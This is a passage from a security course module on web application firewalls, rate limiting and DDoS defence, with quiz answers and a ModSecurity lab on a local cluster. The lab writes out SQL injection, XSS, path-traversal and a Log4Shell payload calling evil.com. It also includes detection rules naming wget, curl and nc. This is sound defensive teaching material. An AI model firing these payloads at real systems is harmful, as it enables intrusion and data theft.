    Uncertain:      Needs investigation → Keep logging

    Phase 3: CREATE EXCEPTIONS
    ─────────────────────────────────────────────
    Exceptions should be as narrow as possible:

    BAD (too broad):
      Disable rule 942100 entirely  ← ALL SQLi detection off!

    BETTER (scoped):
      Disable rule 942100 for path /blog/comments
      when ARGS:comment triggers the match

    BEST (surgical):
      Disable rule 942100 for path /blog/comments
      when ARGS:comment triggers the match
      AND source IP is not in high-risk countries

    Phase 4: ENABLE BLOCKING
    ─────────────────────────────────────────────
    Switch from LOG to BLOCK mode.
    Monitor error rates and customer complaints.
    Keep a fast path to add new exceptions.

    Phase 5: ONGOING MAINTENANCE
    ─────────────────────────────────────────────
    New application features → new false positives.
    WAF rule updates → new false positives.
    Review WAF logs weekly. Tune continuously.

PARANOIA LEVELS (OWASP CRS)
─────────────────────────────────────────────────────────────
    PL1: Standard detection. Few false positives.
         Good starting point for most applications.

    PL2: More patterns. Some false positives likely.
         Good for applications with moderate security needs.

    PL3: Aggressive detection. Expect false positives.
         Needs tuning. For high-security applications.

    PL4: Maximum detection. Many false positives.
         Requires significant tuning. For critical applications.

    START AT PL1. Tune. Move to PL2. Tune again.
    Most applications never need PL3 or PL4.
```

---

## Did You Know?

- **The largest DDoS attack ever recorded hit 5.6 Tbps in late 2024**, targeting an ISP in Eastern Asia. It was a UDP flood from a Mirai-variant botnet comprising over 13,000 compromised devices. Cloudflare mitigated it automatically in under 15 seconds. To put that bandwidth in perspective, it is enough to transfer the entire Library of Congress digitized collection every two seconds.

- **The OWASP Core Rule Set (CRS) has been protecting websites since 2006** and is the default ruleset for ModSecurity, the most widely deployed WAF engine. CRS version 4.x contains over 200 rules covering injection, XSS, path traversal, and more. It is community-maintained and completely free, used by organizations from small businesses to Fortune 500 companies.

- **Credential stuffing attacks use passwords from old breaches to access new services.** Because 65% of people reuse passwords, an attacker with the LinkedIn 2012 breach data (117 million credentials) can successfully log into ~1-3% of accounts on unrelated services. A single credential stuffing campaign might try millions of username/password pairs at a rate of thousands per second.

---

## Common Mistakes

| Mistake | Problem | Solution |
|---------|---------|----------|
| Deploying WAF in block mode day one | Blocks legitimate users immediately | Start in detection/log mode for 2-4 weeks |
| Disabling entire rules for false positives | Removes protection for all requests | Create narrow, path-specific exceptions |
| Rate limiting by IP only | Punishes users behind shared NAT | Combine IP + session + fingerprint keys |
| No rate limit on login endpoint | Credential stuffing and brute force succeed | 5-10 attempts/minute per IP + account lockout |
| Blocking all bots | Breaks SEO (Googlebot) and monitoring | Allowlist verified good bots by IP verification |
| Ignoring WAF logs | Miss attack patterns and false positives | Review WAF logs weekly, automate alerts for blocks |
| WAF without origin protection | Attacker bypasses WAF by hitting origin IP directly | Use origin pull certificates (mTLS) or IP allowlisting |
| Same rate limit for all endpoints | Expensive endpoints vulnerable, simple ones too restricted | Set per-endpoint limits based on cost and risk |
| Relying solely on WAF for security | WAF covers ~30% of OWASP Top 10 | WAF is one layer — still need secure coding, patching, auth |

---

## Quiz

1. **Scenario**: Your company is launching a new API and wants to protect it against SQL injection. The security team is debating between writing strict regex rules for specific SQL keywords (signature-based) or using a system that assigns points to suspicious patterns and blocks above a threshold (anomaly scoring). Explain the difference in how these handle a request containing `SELECT` and `UNION`, and state when you would prefer each approach.
   <details>
   <summary>Answer</summary>

   Signature-based detection matches specific patterns in request data. A rule says "if the request contains `UNION SELECT`, block it." It is binary — either the pattern matches or it doesn't. This is highly effective because it immediately stops known exploits like CVEs before they reach the application.

   Anomaly scoring, on the other hand, assigns points for each suspicious pattern found. Multiple low-confidence matches can accumulate to exceed a blocking threshold. A request containing `SELECT` alone might score 2 points (not blocked), but `SELECT` + `UNION` + `--` might score 15 points (blocked at threshold 10). This is preferred for broader protection because it is much more resilient to evasion techniques where attackers tweak their payloads slightly to bypass exact signatures.

   Most production WAFs use both: anomaly scoring for general protection plus signature rules for specific high-confidence threats.
   </details>

2. **Scenario**: You are designing the API gateway for a SaaS product with both free and premium tiers. You need to ensure the backend servers aren't overwhelmed by massive spikes, but you also want a smooth experience for premium users who occasionally send bursts of legitimate requests. Compare token bucket and leaky bucket algorithms, and explain why you would choose one or both for this architecture.
   <details>
   <summary>Answer</summary>

   A token bucket algorithm allows bursts up to the bucket's capacity, then enforces a sustained rate (e.g., 10 tokens allow 10 rapid requests, refilling at 2/second). This is highly desirable for user-facing APIs because it naturally accommodates short bursts of legitimate activity, such as a dashboard loading multiple widgets simultaneously.

   A leaky bucket algorithm enqueues requests and processes them at a fixed, constant rate, meaning no bursts ever reach the backend. While this perfectly protects backend servers from traffic spikes, it introduces latency for clients during bursts.

   For this API architecture, the best design combines both: use a token bucket at the API gateway layer to define generous burst limits per user tier (e.g., higher capacity for premium), and use a leaky bucket closer to the backend database to ensure the global connection pool is never overwhelmed. This hybrid approach guarantees a smooth UX while strictly preserving backend stability.
   </details>

3. **Scenario**: Your operations team receives an alert that your web servers are dropping legitimate connections. CPU and memory are normal, and traffic volume is low (only a few Mbps), but the active connection count is maxed out. You discover an attacker is opening thousands of connections and sending one HTTP header byte every 10 seconds. Explain why this specific protocol-level behavior causes a denial of service, and detail three ways to mitigate it.
   <details>
   <summary>Answer</summary>

   This attack, known as Slowloris, exploits how HTTP/1.1 handles connections by keeping them open until the server receives a complete request (terminated by a blank line `\r\n\r\n`). Because the attacker sends partial headers very slowly and never completes the request, the server is forced to hold the connection open. Over time, the server's maximum concurrent connection pool becomes completely exhausted. Once the pool is full, any new, legitimate connection attempts are refused, resulting in a denial of service despite low CPU and bandwidth usage.

   To mitigate this, you should first configure a strict request header timeout (e.g., 10 seconds) on your web server to forcibly close lingering connections. Second, deploying a robust reverse proxy or CDN in front of the application will absorb these slow connections, as they buffer the entire request before passing it to the backend. Finally, limiting the maximum number of concurrent connections per source IP can prevent a single attacker from easily monopolizing the entire connection pool.
   </details>

4. **Scenario**: A high-value customer complains that their API request to update a product description is receiving a 403 Forbidden error. You check the WAF logs and see that the request was blocked because the description field contained the text `1 OR 1=1`, triggering the SQL injection (boolean logic) rule. Explain the steps you would take to resolve this false positive without compromising the overall security of the application.
   <details>
   <summary>Answer</summary>

   This is a classic false positive where legitimate user input triggers an overly broad WAF rule. The absolute worst response would be disabling the SQL injection rule globally, as this leaves the entire application vulnerable to real attacks. Instead, you must create a scoped exception that disables the specific rule (e.g., CRS rule 942100) only for the specific path (e.g., `/api/products`), the specific method (`POST` or `PUT`), and the specific parameter (`description`).

   Because you are relaxing the WAF protection for this specific field, you must rely on compensating controls at the application layer. You should verify with the development team that the backend uses parameterized queries when saving this description, ensuring the input cannot be executed as SQL. By combining a surgical WAF exception with strong application-level validation, you restore functionality for the customer without exposing the system to injection.
   </details>

5. **Scenario**: During a major marketing event, your monitoring shows a massive spike in traffic. One dashboard shows a 50 Gbps UDP flood targeting your load balancers, while another shows 100,000 HTTP GET requests per second hitting your `/search` endpoint. Compare these two types of attacks (volumetric vs. application-layer) and explain why the HTTP GET flood is significantly harder to mitigate.
   <details>
   <summary>Answer</summary>

   The 50 Gbps UDP flood is a volumetric (Layer 3/4) attack that aims to overwhelm network bandwidth and infrastructure routing capacities. These attacks often use spoofed source IPs and rely on raw packet volume or amplification techniques, making them relatively easy to identify and filter at the network edge using standard ACLs.

   In contrast, the 100,000 HTTP GET requests per second is an application-layer (Layer 7) attack designed to exhaust backend application resources like CPU and database connections. This is significantly harder to mitigate because every request requires a fully established TCP handshake (meaning source IPs cannot be spoofed) and perfectly mimics legitimate user behavior. You cannot simply block this traffic at the network level; it requires deep packet inspection, behavioral analysis, and often user-friction mechanisms like CAPTCHAs to differentiate a malicious bot from a real customer.
   </details>

6. **Scenario**: You recently deployed a Cloudflare WAF to protect a legacy web application. A week later, the application goes down due to a massive DDoS attack. You realize the attacker bypassed Cloudflare entirely and launched a direct Layer 7 flood against the origin server's public IP address. Explain how this "origin bypass" happens and detail the strongest combination of methods to prevent it in the future.
   <details>
   <summary>Answer</summary>

   An origin bypass occurs when an attacker discovers the real, underlying IP address of your application server (often via historical DNS records, leaked emails, or scanning tools like Shodan) and sends malicious traffic directly to it, circumventing the WAF completely. Since the WAF only inspects traffic routed through its edge network, the direct connection has zero protection.

   To prevent this, you must lock down the origin server so it exclusively accepts traffic from the WAF. The strongest approach is a defense-in-depth strategy: first, implement Authenticated Origin Pulls (mTLS) so your server only accepts connections presenting Cloudflare's cryptographic client certificate. Second, configure the origin's firewall (IP allowlisting) to drop all inbound traffic that does not originate from Cloudflare's published IP ranges. For ultimate security, you can use a solution like Cloudflare Tunnels to establish an outbound connection from the origin to the edge, allowing you to remove the public IP entirely and close all inbound firewall ports.
   </details>

---

## Hands-On Exercise

**Objective**: Deploy a WAF that blocks SQL injection attempts and implements rate limiting for brute-force protection.

**Environment**: kind cluster + ModSecurity (OWASP CRS) via nginx

### Part 1: Deploy the Vulnerable Application (10 minutes)

```bash
# Create cluster
kind create cluster --name waf-lab

# Deploy a deliberately simple application
cat <<'EOF' | kubectl apply -f -
apiVersion: v1
kind: ConfigMap
metadata:
  name: app-code
data:
  server.py: |
    from http.server import HTTPServer, BaseHTTPRequestHandler
    from urllib.parse import urlparse, parse_qs
    import json
    import time

    login_attempts = {}

    class Handler(BaseHTTPRequestHandler):
        def do_GET(self):
            parsed = urlparse(self.path)
            params = parse_qs(parsed.query)

            if parsed.path == '/search':
                query = params.get('q', [''])[0]
                # Deliberately echo input (for testing WAF detection)
                self.send_response(200)
                self.send_header('Content-Type', 'application/json')
                self.end_headers()
                response = {"query": query, "results": [], "note": "search endpoint"}
                self.wfile.write(json.dumps(response).encode())

            elif parsed.path == '/healthz':
                self.send_response(200)
                self.send_header('Content-Type', 'text/plain')
                self.end_headers()
                self.wfile.write(b'OK')

            else:
                self.send_response(200)
                self.send_header('Content-Type', 'text/html')
                self.end_headers()
                self.wfile.write(b'<h1>WAF Lab Application</h1>')

        def do_POST(self):
            parsed = urlparse(self.path)
            content_length = int(self.headers.get('Content-Length', 0))
            body = self.rfile.read(content_length).decode() if content_length else ''

            if parsed.path == '/login':
                self.send_response(200)
                self.send_header('Content-Type', 'application/json')
                self.end_headers()
                response = {"status": "login_attempt", "body": body}
                self.wfile.write(json.dumps(response).encode())
            else:
                self.send_response(404)
                self.end_headers()

        def log_message(self, format, *args):
            print(f"[{time.strftime('%H:%M:%S')}] {args[0]}")

    HTTPServer(('0.0.0.0', 8080), Handler).serve_forever()
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: vulnerable-app
spec:
  replicas: 1
  selector:
    matchLabels:
      app: vulnerable-app
  template:
    metadata:
      labels:
        app: vulnerable-app
    spec:
      containers:
        - name: app
          image: python:3.12-slim
          command: ["python", "/app/server.py"]
          ports:
            - containerPort: 8080
          volumeMounts:
            - name: code
              mountPath: /app
      volumes:
        - name: code
          configMap:
            name: app-code
---
apiVersion: v1
kind: Service
metadata:
  name: vulnerable-app
spec:
  selector:
    app: vulnerable-app
  ports:
    - port: 8080
EOF
```

### Part 2: Deploy ModSecurity WAF (15 minutes)

```bash
cat <<'EOF' | kubectl apply -f -
apiVersion: v1
kind: ConfigMap
metadata:
  name: modsecurity-config
data:
  nginx.conf: |
    load_module modules/ngx_http_modsecurity_module.so;

    events { worker_connections 1024; }

    http {
      # Rate limiting zone: 10 requests/minute per IP for /login
      limit_req_zone $binary_remote_addr zone=login:10m rate=10r/m;

      # General rate limiting: 30 requests/minute per IP
      limit_req_zone $binary_remote_addr zone=general:10m rate=30r/m;

      server {
        listen 80;

        modsecurity on;
        modsecurity_rules_file /etc/modsecurity/main.conf;

        # Login endpoint with strict rate limiting
        location /login {
          limit_req zone=login burst=3 nodelay;
          limit_req_status 429;

          proxy_pass http://vulnerable-app:8080;
          proxy_set_header X-Real-IP $remote_addr;
          proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }

        # All other endpoints with general rate limiting
        location / {
          limit_req zone=general burst=10 nodelay;
          limit_req_status 429;

          proxy_pass http://vulnerable-app:8080;
          proxy_set_header X-Real-IP $remote_addr;
          proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }
      }
    }
  main.conf: |
    SecRuleEngine On
    SecRequestBodyAccess On
    SecResponseBodyAccess Off
    SecRequestBodyLimit 13107200
    SecRequestBodyNoFilesLimit 131072

    # Log blocked requests
    SecAuditEngine RelevantOnly
    SecAuditLogRelevantStatus "^(?:5|4(?!04))"
    SecAuditLog /var/log/modsecurity/audit.log

    # OWASP CRS setup
    SecDefaultAction "phase:1,log,auditlog,pass"
    SecDefaultAction "phase:2,log,auditlog,pass"

    # SQL Injection detection
    SecRule ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_HEADERS \
      "@rx (?i)(?:union[\s\S]+select|select[\s\S]+from|insert[\s\S]+into|delete[\s\S]+from|drop[\s\S]+table|update[\s\S]+set|;[\s]*(?:drop|alter|create|truncate))" \
      "id:1001,phase:2,deny,status:403,msg:'SQL Injection Detected',severity:CRITICAL,tag:'OWASP_CRS/WEB_ATTACK/SQL_INJECTION'"

    # SQL Injection - common patterns
    SecRule ARGS|ARGS_NAMES \
      "@rx (?i)(?:'\s*(?:or|and)\s+[\w\d\s]*=|'\s*;\s*--|1\s*=\s*1|'\s*or\s+')" \
      "id:1002,phase:2,deny,status:403,msg:'SQL Injection Boolean Pattern',severity:CRITICAL"

    # XSS detection
    SecRule ARGS|ARGS_NAMES|REQUEST_COOKIES \
      "@rx (?i)(?:<script[^>]*>|javascript:|on(?:load|error|click|mouseover)\s*=|<\s*img[^>]+onerror)" \
      "id:1003,phase:2,deny,status:403,msg:'XSS Detected',severity:HIGH"

    # Path traversal
    SecRule REQUEST_URI|ARGS \
      "@rx (?:\.\.\/|\.\.\\\\|%2e%2e%2f|%2e%2e\/)" \
      "id:1004,phase:1,deny,status:403,msg:'Path Traversal Detected',severity:HIGH"

    # Command injection
    SecRule ARGS|ARGS_NAMES \
      "@rx (?:;\s*(?:ls|cat|wget|curl|bash|sh|nc|python|perl|ruby)|`[^`]+`|\$\(.*\))" \
      "id:1005,phase:2,deny,status:403,msg:'Command Injection Detected',severity:CRITICAL"

    # Log4Shell pattern
    SecRule REQUEST_HEADERS|ARGS|REQUEST_URI \
      "@rx (?i)\$\{(?:jndi|lower|upper|env|sys|java)" \
      "id:1006,phase:1,deny,status:403,msg:'Log4Shell CVE-2021-44228 Attempt',severity:CRITICAL"

    # Block common scanner User-Agents
    SecRule REQUEST_HEADERS:User-Agent \
      "@rx (?i)(?:sqlmap|nikto|nessus|dirbuster|gobuster|nmap|masscan)" \
      "id:1007,phase:1,deny,status:403,msg:'Scanner Detected',severity:WARNING"
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: waf
spec:
  replicas: 1
  selector:
    matchLabels:
      app: waf
  template:
    metadata:
      labels:
        app: waf
    spec:
      containers:
        - name: modsecurity
          image: owasp/modsecurity-crs:nginx-alpine
          ports:
            - containerPort: 80
          volumeMounts:
            - name: nginx-config
              mountPath: /etc/nginx/nginx.conf
              subPath: nginx.conf
            - name: modsec-config
              mountPath: /etc/modsecurity/main.conf
              subPath: main.conf
          env:
            - name: MODSEC_RULE_ENGINE
              value: "On"
      volumes:
        - name: nginx-config
          configMap:
            name: modsecurity-config
            items: [{ key: nginx.conf, path: nginx.conf }]
        - name: modsec-config
          configMap:
            name: modsecurity-config
            items: [{ key: main.conf, path: main.conf }]
---
apiVersion: v1
kind: Service
metadata:
  name: waf
spec:
  selector:
    app: waf
  ports:
    - port: 80
EOF
```

### Part 3: Test SQL Injection Blocking (15 minutes)

```bash
# Deploy test client
kubectl run attacker --image=curlimages/curl:8.11.1 --rm -it -- sh

# === LEGITIMATE REQUESTS (should pass) ===
echo "=== Test 1: Normal search query ==="
curl -s http://waf/search?q=kubernetes+networking
echo ""

echo "=== Test 2: Normal login ==="
curl -s -X POST http://waf/login -d "username=admin&password=secret123"
echo ""

# === SQL INJECTION ATTACKS (should be blocked) ===
echo "=== Test 3: Classic SQLi (UNION SELECT) ==="
curl -s -o /dev/null -w "HTTP Status: %{http_code}\n" \
  "http://waf/search?q=1+UNION+SELECT+username,password+FROM+users--"

echo "=== Test 4: Boolean-based SQLi ==="
curl -s -o /dev/null -w "HTTP Status: %{http_code}\n" \
  "http://waf/search?q=1'+OR+'1'='1"

echo "=== Test 5: SQLi in POST body ==="
curl -s -o /dev/null -w "HTTP Status: %{http_code}\n" \
  -X POST http://waf/login \
  -d "username=admin'--&password=anything"

# === XSS ATTACKS (should be blocked) ===
echo "=== Test 6: Reflected XSS ==="
curl -s -o /dev/null -w "HTTP Status: %{http_code}\n" \
  "http://waf/search?q=<script>alert('xss')</script>"

# === PATH TRAVERSAL (should be blocked) ===
echo "=== Test 7: Path traversal ==="
curl -s -o /dev/null -w "HTTP Status: %{http_code}\n" \
  "http://waf/search?q=../../../../etc/passwd"

# === LOG4SHELL (should be blocked) ===
echo "=== Test 8: Log4Shell attempt ==="
curl -s -o /dev/null -w "HTTP Status: %{http_code}\n" \
  -H 'X-Forwarded-For: ${jndi:ldap://evil.com/a}' \
  http://waf/

# === SCANNER DETECTION (should be blocked) ===
echo "=== Test 9: SQLMap User-Agent ==="
curl -s -o /dev/null -w "HTTP Status: %{http_code}\n" \
  -H "User-Agent: sqlmap/1.7" \
  http://waf/

# Expected: Tests 1-2 return 200, Tests 3-9 return 403
```

### Part 4: Test Rate Limiting (15 minutes)

```bash
# Still in the attacker pod:

echo "=== Rate Limit Test: Brute Force Login ==="
for i in $(seq 1 20); do
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" \
    -X POST http://waf/login \
    -d "username=admin&password=attempt$i")
  echo "Attempt $i: HTTP $STATUS"
done

# Expected: First ~13 (10 rate + 3 burst) return 200
# Remaining return 429 (rate limited)

echo ""
echo "=== Rate Limit Test: General Endpoint ==="
for i in $(seq 1 50); do
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" http://waf/healthz)
  echo "Request $i: HTTP $STATUS"
done

# Expected: First ~40 (30 rate + 10 burst) return 200
# Remaining return 429
```

### Part 5: Compare Direct vs WAF-Protected (10 minutes)

```bash
# Show that attacks work without WAF
echo "=== Direct to app (NO WAF) ==="
echo "SQLi direct:"
curl -s "http://vulnerable-app:8080/search?q=1+UNION+SELECT+*+FROM+users"
echo ""
echo "XSS direct:"
curl -s "http://vulnerable-app:8080/search?q=<script>alert(1)</script>"
echo ""

# These return 200 with the malicious input echoed back!
# The WAF is the only thing protecting the application.
```

### Clean Up

```bash
kind delete cluster --name waf-lab
```

**Success Criteria**:
- [ ] Legitimate requests pass through the WAF (HTTP 200)
- [ ] SQL injection attempts are blocked (HTTP 403)
- [ ] XSS attempts are blocked (HTTP 403)
- [ ] Path traversal and Log4Shell attempts are blocked (HTTP 403)
- [ ] Scanner User-Agents are blocked (HTTP 403)
- [ ] Login brute force is rate-limited (HTTP 429 after threshold)
- [ ] Verified that the same attacks succeed against the unprotected app
- [ ] Understood why WAF is defense-in-depth, not a replacement for secure coding

---

## Further Reading

- **OWASP ModSecurity Core Rule Set** — The industry standard open-source WAF ruleset. Documentation includes detailed descriptions of every rule and tuning guidance.

- **"Web Application Security" by Andrew Hoffman** (O'Reilly) — Comprehensive coverage of web attacks and defenses, including WAF architecture and tuning.

- **Cloudflare Radar** — Real-time data on internet traffic, DDoS attacks, and bot activity. Excellent for understanding the current threat landscape.

- **"DDoS Attack Protection: Essential Practices"** — CISA's guidance on DDoS preparation and response for organizations of all sizes.

---

## Key Takeaways

Before moving on, ensure you understand:

- [ ] **WAFs inspect HTTP traffic against rules**: Signature matching catches known attacks, anomaly scoring catches variations, behavioral analysis catches patterns
- [ ] **WAFs cover roughly 30% of OWASP Top 10**: Strong for injection, partial for access control and misconfig, useless for design and crypto flaws
- [ ] **Virtual patching buys time**: WAF rules can block CVE exploits within hours while patches take weeks to deploy
- [ ] **Rate limiting needs the right algorithm**: Token bucket for user-facing APIs (allows bursts), leaky bucket for backend protection (smooth rate)
- [ ] **Rate limiting keys matter**: IP-only punishes NAT users; combine IP + session + API key for accuracy
- [ ] **L7 DDoS is harder than L3/L4**: Volumetric attacks are detectable by volume; L7 attacks look like legitimate traffic
- [ ] **Bot detection is an arms race**: Simple bots are trivial to block; sophisticated bots require TLS fingerprinting, behavioral analysis, and challenges
- [ ] **WAF tuning is ongoing**: Start in log mode, create narrow exceptions, increase paranoia gradually, review logs weekly

---

## Next Module

[Module 1.4: BGP & Core Routing](../module-1.4-bgp-routing/) — How the internet actually routes packets between networks, and why BGP is both the glue holding the internet together and its biggest vulnerability.